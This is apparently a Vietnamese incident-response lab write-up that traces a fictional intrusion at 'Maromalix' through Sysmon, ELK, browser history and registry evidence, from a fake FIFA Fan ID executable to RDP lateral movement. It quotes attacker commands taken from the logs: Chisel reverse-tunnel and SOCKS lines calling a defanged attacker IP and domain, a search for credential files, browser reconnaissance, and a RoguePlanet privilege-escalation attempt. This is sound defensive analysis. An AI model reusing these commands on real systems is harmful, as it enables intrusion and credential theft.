# Từ tệp Fan ID đến SYSTEM shell và truy cập hồ sơ FIFA tại Maromalix

## Điểm chính

- Cuộc điều tra bắt đầu từ FIFA2026_FanID_Verifier_v2.1.exe trên WKSTN-01. Microsoft Edge ghi nhận lượt tải; executable được khởi chạy từ Explorer khoảng 11 giây sau đó (Hình 1–4).
- Sau khi rà soát tài khoản, phần mềm và trình duyệt, executable khởi chạy EdgeSavedPasswordsDumper.exe. Chisel được dùng với cả cấu hình reverse port forwarding về RDP và reverse SOCKS để mở rộng khả năng truy cập qua workstation (Hình 4–9, 14).
- Lần khai thác RoguePlanet trên WKSTN-01 không thành công theo diễn biến lab. Threat actor dùng credentials đã lấy được để RDP sang các workstation khác và chạy RoguePlanetV2.exe trên WKSTN-04; log sau đó ghi nhận cmd.exe dưới quyền SYSTEM (Hình 11–16).
- Từ SYSTEM shell, threat actor gọi lệnh xuất SAM và SYSTEM, cấu hình service AWSLiteAgent chạy Chisel, rồi tiếp tục hoạt động với tài khoản Administrator trên WKSTN-01 và WKSTN-03 (Hình 17–21).
- Kết quả phân tích LNK bằng LECmd.exe cho thấy 20 đường dẫn tài liệu thuộc ba profile, liên quan đến tài chính và dự án FIFA. Chưa có bằng chứng xác định tệp nào đã được exfiltration (Hình 22–24).

## Tóm tắt vụ việc

Maromalix là doanh nghiệp phân tích dữ liệu quy mô vừa, đã dành 18 tháng cạnh tranh cho một hợp đồng dữ liệu thể thao toàn cầu có giá trị lớn nhất trong lịch sử công ty. Khi đối thủ giành hợp đồng bằng một đề xuất trùng khớp bất thường với số liệu nội bộ, ban lãnh đạo nghi ngờ hồ sơ dự thầu đã bị đánh cắp trước hạn nộp. Đây là bối cảnh khởi đầu cuộc điều tra.

Dấu vết ngày 21/06/2026 bắt đầu trên WKSTN-01 với một executable mang tên công cụ xác minh Fan ID. Sau khi được chạy, tệp này tạo các tiến trình phục vụ Discovery, khởi chạy công cụ có tên EdgeSavedPasswordsDumper.exe và cấu hình Chisel với reverse port forwarding. Các hoạt động cho thấy việc truy cập ban đầu nhanh chóng chuyển sang tìm credentials và chuẩn bị đường truy cập từ xa (Hình 1–9).

Sau lần khai thác RoguePlanet không thành công trên WKSTN-01, threat actor chạy Chisel với reverse SOCKS rồi chuyển qua RDP sang các máy khác. Trên WKSTN-04, RoguePlanetV2.exe được chạy dưới tài khoản omar.hassan, tiếp theo là SYSTEM shell và các lệnh xuất SAM/SYSTEM. Hoạt động sau đó hướng đến duy trì truy cập bằng service Chisel và sử dụng Administrator trên những workstation khác (Hình 11–21).

Các artifact LNK đưa cuộc điều tra đến những tài liệu tài chính, chiến lược partnership và hồ sơ FIFA trong ba profile người dùng. Tôi đánh giá tập tài liệu này phù hợp với mục tiêu tìm kiếm thông tin dự thầu. Tuy nhiên, bằng chứng hiện có chưa xác định tài liệu cuối cùng bị chọn hoặc dữ liệu rời khỏi hệ thống, nên chưa đủ để kết luận nghi vấn đánh cắp hồ sơ là nguyên nhân Maromalix mất hợp đồng (Hình 22–24).

## Môi trường lab

Cuộc điều tra bắt đầu từ hoạt động bất thường trên workstation của bộ phận tài chính. Tôi sử dụng log trong ELK Stack, lịch sử Microsoft Edge, dữ liệu Registry, bản ghi thay đổi tệp và các tệp LNK để lần theo diễn biến từ WKSTN-01 sang các workstation khác. Các mốc thời gian dưới đây thuộc ngày 21/06/2026 và được giữ theo cách hiển thị trong nguồn bằng chứng.

| Host | Vai trò trong diễn biến điều tra | Căn cứ |
| --- | --- | --- |
| WKSTN-01 | Điểm bắt đầu với tệp Fan ID, hoạt động tìm credentials, cấu hình Chisel và lần chạy RoguePlanet không thành công. EngineVersion 1.1.26050.11. | Hình 1–13 và diễn biến lab |
| WKSTN-02 | Có bản ghi TargetUserName omar.hassan trong diễn biến chuyển máy qua RDP. | Hình 15 |
| WKSTN-03 | Có bản ghi omar.hassan, sau đó có thay đổi Registry dưới local Administrator và bản ghi RemoteInteractive. | Hình 15, 20–21 |
| WKSTN-04 | Đích chạy RoguePlanetV2.exe, xuất hiện SYSTEM shell và các lệnh xuất SAM/SYSTEM. EngineVersion 1.1.25040.1 được xác nhận từ bối cảnh lab. | Hình 16–17 và thông tin lab |

Tôi đối chiếu Sysmon trong ELK Stack với database History bằng DB Browser for SQLite, dữ liệu thay đổi tệp bằng Timeline Explorer và LNK bằng LECmd.exe. Các kết quả VirusTotal trong báo cáo phản ánh thời điểm chụp ảnh. Múi giờ của nguồn log chưa được xác định; hostname của từng nhóm LNK cũng chưa có đủ thông tin để gán.

## Initial Access

### Tệp xác minh Fan ID trên WKSTN-01

Dấu vết đầu tiên xuất hiện trong kết quả rà soát Sysmon Event ID 15. Khoảng 11:42:11, Microsoft Edge ghi nhận tệp FIFA2026_FanID_Verifier_v2.1.exe trong thư mục Downloads của omar.hassan. Stream Zone.Identifier đi kèm chứa ZoneId=3 và HostUrl trỏ đến địa chỉ IP qua HTTP (Hình 1).

```text
C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
C:\Users\omar.hassan\Downloads\FIFA2026_FanID_Verifier_v2.1.exe
C:\Users\omar.hassan\Downloads\FIFA2026_FanID_Verifier_v2.1.exe:Zone.Identifier

[ZoneTransfer]
ZoneId=3
HostUrl=hxxp://18[.]199[.]178[.]251/FIFA2026_FanID_Verifier_v2.1.exe
```



Hình 1: Dấu vết tải executable bằng Microsoft Edge, với HostUrl được lưu trong Zone.Identifier.

Đối chiếu database History bằng DB Browser for SQLite, tôi tìm thấy cùng tên tệp trong bảng downloads của Microsoft Edge. Trường tab_url liên kết lượt tải với domain fifa[.]tax (Hình 2).

```text
C:\Users\omar.hassan\AppData\Local\Microsoft\Edge\User Data\Default\History

table: downloads
tab_url: hxxp://fifa[.]tax/FIFA2026_FanID_Verifier_v2.1.exe
```



Hình 2: Lịch sử tải xuống của Microsoft Edge ghi nhận URL trên domain fifa[.]tax.

Kết quả VirusTotal trong ảnh cho thấy 11/92 security vendors đánh dấu domain này là malicious, với các nhãn Phishing, Malware và Malicious (Hình 3).



Hình 3: Kết quả đánh giá domain fifa[.]tax trên VirusTotal tại thời điểm chụp ảnh.

Tra cứu tài liệu liên quan cho thấy fifa[.]tax cũng xuất hiện trong [báo cáo của Group-IB về GHOST STADIUM](https://www.group-ib.com/blog/ghost-stadium-football-fraud/), một chiến dịch phishing nhắm vào người hâm mộ **FIFA World Cup 2026**. Chiến dịch dùng website giả mạo FIFA để đánh lừa người dùng và thu thập credentials. Có thể đọc thêm bài viết về chiến dịch tại [đây](https://cybersecuritynews.com/ghost-stadium-phishing-campaign-targets-fifa-world-cup-fans/).

## Execution

Khoảng 11 giây sau lượt tải, lúc 11:42:22.509, executable được khởi chạy. Từ đây, hoạt động chuyển từ tải tệp sang thực thi trên workstation (Hình 4).

```text
@timestamp: Jun 21, 2026 @ 11:42:22.509
winlog.event_data.Image: C:\Users\omar.hassan\Downloads\FIFA2026_FanID_Verifier_v2.1.exe
winlog.event_data.CommandLine: "C:\Users\omar.hassan\Downloads\FIFA2026_FanID_Verifier_v2.1.exe"
winlog.event_data.ParentImage: C:\Windows\explorer.exe
winlog.event_data.ParentCommandLine: C:\Windows\Explorer.EXE
```



Hình 4: Executable được khởi chạy từ Explorer, sau đó tạo cmd.exe để chạy các lệnh kiểm tra tài khoản.

## Discovery

### Kiểm tra tài khoản và tìm dữ liệu xác thực

Các lệnh đầu tiên tập trung vào danh tính và quyền của tiến trình. Lúc 11:43:38.634, executable gọi cmd.exe để chạy whoami; đến 11:43:57.295, lệnh được lặp lại với tham số /all. Các tiến trình whoami.exe tương ứng xuất hiện ngay sau đó (Hình 4).

```cmd
C:\Windows\System32\cmd.exe /C whoami
C:\Windows\System32\cmd.exe /C whoami /all
```

Windows Command Shell được dùng để gọi các tiện ích hệ thống. Lệnh whoami xác định tài khoản hiện tại, còn /all bổ sung SID, group membership và privileges, giúp nhận diện ngữ cảnh quyền trước các thao tác tiếp theo.

Lúc 11:44:07.869, executable tiếp tục tìm các tên tệp chứa password hoặc cred trong cây thư mục người dùng. Đây là File and Directory Discovery, dùng việc liệt kê tệp và thư mục để tìm dữ liệu đáng quan tâm; các mẫu tìm kiếm ở đây hướng đến thông tin xác thực (Hình 5).

```cmd
C:\Windows\system32\cmd.exe /C dir /s /b C:\Users\*password* C:\Users\*cred*
```

### Rà soát phần mềm và trình duyệt

Trọng tâm sau đó chuyển sang trình duyệt. Lúc 11:44:20.957, một lệnh reg query tìm chuỗi browser trong nhánh Uninstall của Registry. Đến 11:44:34.978, executable gọi WMIC để lấy tên và phiên bản phần mềm. Hai truy vấn thực hiện Software Discovery, giúp nhận diện các ứng dụng trên máy (Hình 5).

```cmd
C:\Windows\system32\cmd.exe /C reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall /s /f "browser"
C:\Windows\system32\cmd.exe /C wmic product get name,version
```



Hình 5: Các lệnh tìm tệp theo tên và rà soát phần mềm được gọi từ executable ban đầu.

Lúc 11:44:48.677, executable gọi tasklist kết hợp findstr để tìm các tiến trình có tên liên quan đến Edge, Chrome, Firefox, Brave và Internet Explorer. Bước Process Discovery này xác định trình duyệt đang hoạt động, tiếp nối việc rà soát phần mềm đã cài đặt (Hình 6).

```cmd
C:\Windows\system32\cmd.exe /C tasklist /v | findstr /i "edge chrome firefox brave iexplore"
```



Hình 6: Executable tìm các tiến trình trình duyệt, rồi khởi chạy EdgeSavedPasswordsDumper.exe.

## Credential Access

### Nhắm vào credentials trong Microsoft Edge

Đến 11:45:43.556, FIFA2026_FanID_Verifier_v2.1.exe khởi chạy EdgeSavedPasswordsDumper.exe từ Downloads. Quan hệ ParentImage nối công cụ này với hoạt động rà soát trình duyệt ngay trước đó (Hình 6).

```text
winlog.event_data.Image: C:\Users\omar.hassan\Downloads\EdgeSavedPasswordsDumper.exe
winlog.event_data.CommandLine: EdgeSavedPasswordsDumper.exe
winlog.event_data.ParentImage: C:\Users\omar.hassan\Downloads\FIFA2026_FanID_Verifier_v2.1.exe
```

Ảnh VirusTotal cho một mẫu cùng tên hiển thị kích thước 11.00 KB và tỷ lệ phát hiện 45/71, với các nhãn trojan, hacktool và stealer. Hash hiển thị trong ảnh là:

```text
58c4470c10c51ca006ec8003deac400c297ac66ff64ccee9d93f420bbe4251f5
```



Hình 7: Kết quả VirusTotal cho mẫu mang tên EdgeSavedPasswordsDumper.exe.

Tôi đánh giá chuỗi hoạt động này hướng đến Credentials from Web Browsers, tức lấy thông tin xác thực được trình duyệt lưu trữ. Log xác nhận việc chạy công cụ; kết quả VirusTotal bổ trợ nhận định về chức năng của mẫu cùng tên, nhưng chưa có hash trên workstation để đối chiếu trực tiếp (Hình 6–7).

## Command and Control

### Mở đường truy cập bằng Chisel

Lúc 12:10:58.447, executable ban đầu khởi chạy chisel.exe trong chế độ client. CommandLine trỏ đến một endpoint HTTPS trên workers.dev và khai báo reverse port forwarding (Hình 8).

```text
winlog.event_data.Image: C:\Users\omar.hassan\Downloads\chisel.exe
winlog.event_data.ParentImage: C:\Users\omar.hassan\Downloads\FIFA2026_FanID_Verifier_v2.1.exe
```

```cmd
chisel.exe client --keepalive 30s --max-retry-count -1 --max-retry-interval 1m --auth "svc_chisel_mgmt:TempTunnelPermit8443#" hxxps://phantom-pipe-v49[.]sphinky[.]workers[.]dev R:127.0.0.1:13389:127.0.0.1:3389
```

Theo [tài liệu Chisel](https://github.com/jpillora/chisel#usage), **reverse port forwarding** chuyển tiếp kết nối đến một đích cụ thể, còn **reverse SOCKS** cung cấp proxy để truy cập nhiều đích qua mạng phía client.

CommandLine trong Hình 8 thể hiện reverse port forwarding: chuyển lưu lượng từ loopback port 13389 của server về loopback port 3389 trên workstation. Tôi đánh giá tunnel này được chuẩn bị để phục vụ truy cập RDP vào máy. Reverse SOCKS được ghi nhận ở một lần chạy Chisel về sau, trước giai đoạn chuyển sang workstation khác (Hình 14).

Lúc 12:18:34.659, executable gọi taskkill để kết thúc chisel.exe; taskkill.exe xuất hiện lúc 12:18:34.824 (Hình 8).

```cmd
C:\Windows\system32\cmd.exe /C taskkill /F /IM chisel.exe
```



Hình 8: Chisel được khởi chạy với endpoint HTTPS, sau đó có lệnh yêu cầu kết thúc tiến trình.

Khoảng 19 giây sau, lúc 12:18:54.015, Chisel được chạy lại với cùng tiến trình cha và cấu hình chuyển tiếp. Endpoint lần này đổi sang HTTP tại 18[.]199[.]178[.]251, port 8443. Đây cũng là IP xuất hiện trong HostUrl của tệp tải xuống ban đầu (Hình 1, 9).

```cmd
chisel.exe client --keepalive 30s --max-retry-count -1 --max-retry-interval 1m --auth "svc_chisel_mgmt:TempTunnelPermit8443#" hxxp://18[.]199[.]178[.]251:8443 R:127.0.0.1:13389:127.0.0.1:3389
```



Hình 9: Chisel chuyển sang endpoint IP; các bản ghi tiếp theo cho thấy Taskmgr.exe, PowerShell và strings.exe được khởi chạy.

## Credential Access

### Tạo tệp nghi là memory dump và đổi tên thành Bookmarks

Sau cấu hình tunnel, hoạt động tiếp tục tập trung vào dữ liệu Microsoft Edge. Taskmgr.exe được khởi chạy từ Explorer lúc 12:22:15.091 (Hình 9). Dữ liệu J.csv xem bằng Timeline Explorer ghi nhận msedge.DMP được tạo trong Temp lúc 12:22:28, sau đó có các thay đổi DataExtend, DataOverwrite và Close, với bản ghi Close lúc 12:22:48 (Hình 10).

```text
"C:\Windows\system32\taskmgr.exe" /4

Parent Path: .\Users\omar.hassan\AppData\Local\Temp
Name: msedge.DMP
Entry Number: 31683
Sequence Number: 24
```

Lúc 12:23:04, tệp được đổi tên từ msedge.DMP thành Bookmarks. Đến 12:23:17, một cặp RenameOldName và RenameNewName tiếp tục ghi nhận Bookmarks chuyển khỏi Temp sang đường dẫn bắt đầu bằng thư mục Microsoft, bị cắt ngắn trong ảnh. Entry Number 31683 và Sequence Number 24 giữ nguyên, cho phép theo dõi cùng một tệp qua các lần đổi tên (Hình 10).



Hình 10: msedge.DMP được tạo, đổi tên thành Bookmarks rồi chuyển khỏi Temp.

### Tìm chuỗi trong tệp Bookmarks

Lúc 12:24:31.118, PowerShell được mở từ Explorer và gọi strings.exe lúc 12:24:42.421. Đến 12:25:06.145, công cụ được gọi với tệp đầu vào Bookmarks và tham số -n 8 (Hình 9, 11).

```text
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
"C:\Users\omar.hassan\AppData\Local\Microsoft\Edge\User Data\Default\strings.exe"
"C:\Users\omar.hassan\AppData\Local\Microsoft\Edge\User Data\Default\strings.exe" -n 8 .\Bookmarks
```

[Strings](https://learn.microsoft.com/en-us/sysinternals/downloads/strings) trích xuất các chuỗi có thể đọc được từ tệp; -n 8 đặt độ dài tối thiểu là tám ký tự. Tôi đánh giá việc tạo msedge.DMP, đổi tên và chạy strings trên tệp cùng tên Bookmarks phù hợp với nỗ lực tìm dữ liệu nhạy cảm trong memory dump. Việc đổi tên cũng có thể làm tệp trông giống dữ liệu trình duyệt thông thường; 



Hình 11: PowerShell gọi strings.exe với Bookmarks; bản ghi tiếp theo ghi nhận RoguePlanet.exe được khởi chạy.

## Privilege Escalation

### Thử khai thác RoguePlanet trên WKSTN-01

Lúc 12:28:16.981, RoguePlanet.exe được khởi chạy từ Downloads (Hình 11). Chỉ hơn một giây sau, lúc 12:28:18.229, executable nạp MpClient.dll từ thư mục Microsoft Defender (Hình 12).

```text
winlog.event_data.Image: C:\Users\omar.hassan\Downloads\RoguePlanet.exe
winlog.event_data.ParentImage: C:\Windows\explorer.exe

@timestamp: Jun 21, 2026 @ 12:28:18.229
winlog.event_data.ImageLoaded: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.26050.15-0\MpClient.dll
```



Hình 12: RoguePlanet.exe nạp MpClient.dll ngay sau khi khởi chạy trên WKSTN-01.

RoguePlanet là PoC gắn với **CVE-2026-50656 — Microsoft Defender Elevation of Privilege Vulnerability**. Lỗ hổng Local Privilege Escalation cho phép vượt qua ranh giới quyền trên cùng máy và có thể tạo SYSTEM shell khi khai thác thành công, theo [tài liệu của tác giả](https://github.com/MSNightmare/RoguePlanet).

[Phân tích của Cyderes](https://www.cyderes.com/howler-cell/rogueplanet-windows-zero-day) mô tả race condition trong quá trình scan/quarantine của Defender, kết hợp NTFS junction, opportunistic locks và Windows Error Reporting QueueReporting để thực thi payload dưới quyền SYSTEM. PoC sử dụng MpClient.dll để yêu cầu Defender scan; dấu vết nạp thư viện trong Hình 12 phù hợp với bước này.

Theo diễn biến lab được xác nhận, lần khai thác trên WKSTN-01 không thành công. Threat actor sau đó chuyển sang các workstation khác để tiếp tục nâng quyền (Hình 11–12, 15).

## Lateral Movement

### Chuyển mục tiêu sang WKSTN-04

WKSTN-01 sử dụng Defender EngineVersion **1.1.26050.11**, thể hiện trong dữ liệu Registry ở Hình 13.[^defender] Sau lần khai thác thất bại, threat actor dùng credentials đã lấy được để RDP sang các workstation khác, theo bối cảnh lab được xác nhận (Hình 15).

```text
Value Name: EngineVersion
Value Type: RegSz
Data: 1.1.26050.11
```



Hình 13: EngineVersion 1.1.26050.11 thuộc WKSTN-01.

### Mở reverse SOCKS trước khi chuyển máy

Lúc 12:48:00.461, chisel.exe được khởi chạy từ Downloads dưới tài khoản MAROMALIX\omar.hassan. Endpoint vẫn là HTTP tại 18[.]199[.]178[.]251, port 8443, nhưng remote specification lần này là R:13450:socks (Hình 14).

```cmd
chisel.exe client --keepalive 30s --max-retry-count -1 --max-retry-interval 1m --auth "svc_chisel_mgmt:TempTunnelPermit8443#" hxxp://18[.]199[.]178[.]251:8443 R:13450:socks
```

Tham số này cấu hình SOCKS proxy trên port 13450 phía server, chuyển kết nối qua client. Tôi đánh giá bước reverse SOCKS nhằm mở rộng đường truy cập qua WKSTN-01 trước khi threat actor tiếp tục lateral movement (Hình 14–15).



Hình 14: Chisel client chạy dưới omar.hassan với R:13450:socks, xác nhận có lệnh cấu hình reverse SOCKS trong lab.

### RDP sang các workstation khác

Các bản ghi trong ELK ghi nhận TargetUserName omar.hassan trên WKSTN-02.maromalix.corp lúc 12:51:10.031, WKSTN-03.maromalix.corp lúc 12:51:24.580 và WKSTN-04.maromalix.corp lúc 12:58:50.026. 


Hình 15: Tài khoản omar.hassan xuất hiện trên WKSTN-02, WKSTN-03 và WKSTN-04 trước lần khai thác tiếp theo.

Theo thông tin lab được xác nhận, WKSTN-04 sử dụng Defender EngineVersion **1.1.25040.1**, còn khai thác được bằng RoguePlanetV2.exe. Đây là máy threat actor lựa chọn để tiếp tục nâng quyền (Hình 15–16).

## Privilege Escalation

### Có được SYSTEM shell trên WKSTN-04

